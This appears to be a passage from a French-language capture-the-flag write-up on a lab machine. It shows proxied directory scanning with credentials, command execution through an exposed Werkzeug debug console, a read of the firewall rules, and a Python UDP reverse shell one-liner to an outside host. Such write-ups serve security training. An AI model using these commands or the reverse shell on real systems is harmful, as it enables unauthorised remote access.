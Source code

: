 ```
+ Uncommon header 'x-squid-error' found, with contents: ERR_INVALID_REQ 0
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3092: /console: This might be interesting...
+ 7519 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2019-09-21 15:20:27 (GMT2) (279 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
=> /console



### gobuster

```
# /opt/gobuster/gobuster dir -p http://10.10.10.21:3128 -U kalamari -P ihateseafood -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://127.0.0.1  -l -x html,php,js,txt
```


### 127.0.0.1/console via proxy

Dans le header Werkzeug/0.10.5-dev Python/2.7.12+
- Werkzeug - 'Debug Shell' Command Execution
    - https://www.exploit-db.com/exploits/43905


```
>>> subprocess.check_output(['cat','/etc/iptables/rules.v4'])
'# Generated by iptables-save v1.6.0 on Fri May 19 18:01:16 2017\n
*filter\n
:INPUT DROP [41573:1829596]\n
:FORWARD ACCEPT [0:0]\n
:OUTPUT ACCEPT [878:221932]\n
-A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT\n
-A INPUT -i ens33 -p tcp -m tcp --dport 3128 -j ACCEPT\n
-A INPUT -i ens33 -p udp -j ACCEPT\n
-A INPUT -i ens33 -p icmp -j ACCEPT\n
-A INPUT -i lo -j ACCEPT\n
-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP\n            <==== pas de connection sortante en tcp
COMMIT\n
# Completed on Fri May 19 18:01:16 2017\n'  

>>> subprocess.check_output(['whoami'])
'werkzeug\n'
>>> subprocess.check_output(['pwd'])
'/var/www\n'
```

On utilise un reverse shell UDP en python 

```
>>> import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.14.18\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])
<subprocess.Popen object at 0x7f61076ea390>
```
